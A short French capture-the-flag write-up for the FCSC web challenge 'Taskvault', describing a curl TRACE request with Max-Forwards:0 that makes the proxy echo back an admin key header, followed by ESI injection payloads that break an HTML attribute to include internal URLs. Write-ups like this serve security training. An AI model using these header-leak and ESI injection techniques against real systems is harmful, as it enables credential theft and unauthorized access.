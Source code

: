 Web - Taskvault
==================

Exploit 
---------

D'abord on cherche a obtenir la clé admin,

On sait que le proxy Apache autorise l'utilisation de TRACE

Mais l'application Express ne le permet pas

On va donc utiliser Max-Forwards:0 pour que la requête n'atteigne pas le serveur express : 

.. code-block:: console
    
    curl -X TRACE -H "Max-Forwards:0" https://taskvault.fcsc.fr  

    TRACE / HTTP/1.1
    host: taskvault.fcsc.fr
    user-agent: curl/8.11.1
    accept: */*
    max-forwards: 0
    X-Forwarded-For: 176.137.240.135, 51.77.135.65
    Via: 1.1 taskvault-varnish (Varnish/7.6)
    X-Admin-Key: 6d02ed57299292a47615254957d073cc75cc7855248684960946838c1f786081
    X-Varnish: 2330548

Le mieux qu'on ait trouvé, mais inefficace dans note.content : 

${document.getElementById('abcd').innerHTML = '<esi:include src=http://127.0.0.1:1337>'}

En faites on pouvait injecter direct dans id="ICI" car le varnish se fou de la structure html, il fallait juste mettre un ">" pour casser le contexte 

.. code-block:: console
    
    ><esi:include src='http://give_me_the_flag/'>

On est pas passé loin mais tant pis, on aura quand même découvert ESI et Max-Forwards ! 